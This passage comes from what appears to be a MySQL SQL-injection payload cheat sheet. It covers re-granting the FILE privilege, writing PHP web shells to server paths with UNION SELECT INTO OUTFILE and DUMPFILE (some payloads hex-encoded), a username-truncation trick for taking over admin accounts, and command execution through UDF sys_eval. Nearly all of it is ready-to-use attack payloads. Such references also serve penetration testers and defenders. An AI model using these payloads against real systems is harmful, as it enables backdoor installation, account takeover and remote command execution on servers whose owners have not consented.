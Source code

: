 If you are `root` on the database, you can re-enable the `LOAD_FILE` using the following query

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MYSQL Write a shell

### Into outfile method

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### Into dumpfile method

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

## MYSQL Truncation

In MYSQL "`admin `" and "`admin`" are the same. If the username column in the database has a character-limit the rest of the characters are truncated. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.

```sql
`username` varchar(20) not null
```

Payload: `username = "admin               a"`

## MYSQL UDF command execution

First you need to check if the UDF are installed on the server.

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

Then you can use functions such as `sys_exec` and `sys_eval`.

```sql
$ mysql -u root -p mysql
Enter password: [...]
mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```

